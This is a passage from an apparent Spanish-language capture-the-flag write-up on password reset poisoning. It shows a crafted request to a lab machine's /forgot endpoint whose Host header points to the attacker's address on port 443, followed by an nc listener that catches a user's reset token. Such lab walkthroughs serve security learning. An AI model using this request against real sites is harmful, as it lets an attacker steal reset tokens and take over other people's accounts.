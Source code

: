 ![](/assets/img/commons/Forget/web4.png)

esto ya me hace pensar en un ataque de envenenamiento por restablecimiento de contraseña, pero que es esto? tomé como referencia la vulneribilidad escrita en [PortSwigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning) 

***El envenenamiento por restablecimiento de contraseña es una técnica mediante la cual un atacante manipula un sitio web vulnerable para generar un enlace de restablecimiento de contraseña que apunta a un dominio bajo su control. Este comportamiento se puede aprovechar para robar los tokens secretos necesarios para restablecer las contraseñas de usuarios arbitrarios y, en última instancia, comprometer sus cuentas.*** 
 
## Password reset poisoning

Para este tipo de ataque tenemos que definir un host y en dicha cabezera la modificaré y pondré mi máquina de ataquente esepcificandole un puerto a donde quiero que llegue mi petición como nos dice en el post, quedando como 

```console
GET /forgot?username=robert-dev-367120 HTTP/1.1
Host: 10.10.14.11:443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.188/forgot
Cookie: __hstc=37486847.04b75512c5e70df0f641f884f2f42e0d.1683853527660.1683864397738.1683909959078.3; hubspotutk=04b75512c5e70df0f641f884f2f42e0d; __hssrc=1; __hssc=37486847.4.1683909959078
```
y me pondré a la escucha con nc por el puerto 443 y si nos fijamos después de unos segundos tenemos el token para restablecer la contraseña del usuario 
